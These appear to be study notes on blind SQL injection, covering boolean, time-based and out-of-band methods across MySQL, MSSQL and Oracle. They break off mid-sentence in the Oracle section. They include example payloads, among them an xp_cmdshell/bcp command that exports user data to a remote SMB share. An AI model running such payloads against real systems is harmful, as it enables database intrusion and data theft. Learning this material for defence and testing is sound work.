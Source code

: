 # **Blind SQLi**

Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successfully enumerate a whole database.

### **Boolean Based**

Boolean-based SQL Injection refers to the response we receive from our injection attempts, which could be a true/false, yes/no, on/off, 1/0 or any response that can only have two outcomes. That outcome confirms that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, with just these two responses, it's possible to enumerate a whole database structure and contents.
Example: `SELECT * FROM users WHERE id = 1 AND 1=1 (true condition) versus SELECT * FROM users WHERE id = 1 AND 1=2 (false condition)`

### **Time-Based**

A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as **SLEEP(x)** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement.
Example: `SELECT * FROM users WHERE id = 1; IF (1=1) WAITFOR DELAY '00:00:05'--`
# Out-of-band SQL Injection
Is used when the attacker cannot use the same channel to launch the attack and gather results or when the server responses are unstable. This technique relies on the database server making an out-of-band request (e.g., HTTP or DNS) to send the query result to the attacker. HTTP is normally used in out-of-band SQL injection to send the query result to the attacker's server.
**By different communication channels**, attackers can minimize the risk of detection and maintain a persistent connection with the compromised system.
Out-of-band SQL injection attacks utilize the methodology of writing to another communication channel through a crafted query.
### Techniques in Different Databases
#### MySQL and MariaDB
Out-of-band SQL injection can be achieved using `SELECT...INTO OUTFILE` or `load_file`command. Example, `SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';`
An attacker could then access this file via an SMB share or HTTP server running on the database server, thereby exfiltrating the data through an alternate channel.
#### Microsoft SQL Server (MSSQL)
We can achieve OOB SQL injection using features like xp_cmdshell, which allows the execution of [[shell]] commands directly from SQL queries.
 `EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';`
 Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration through OOB channels.
#### Oracle
Can be achieve using the UTL_HTTP or UTL_FILE packges.For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:
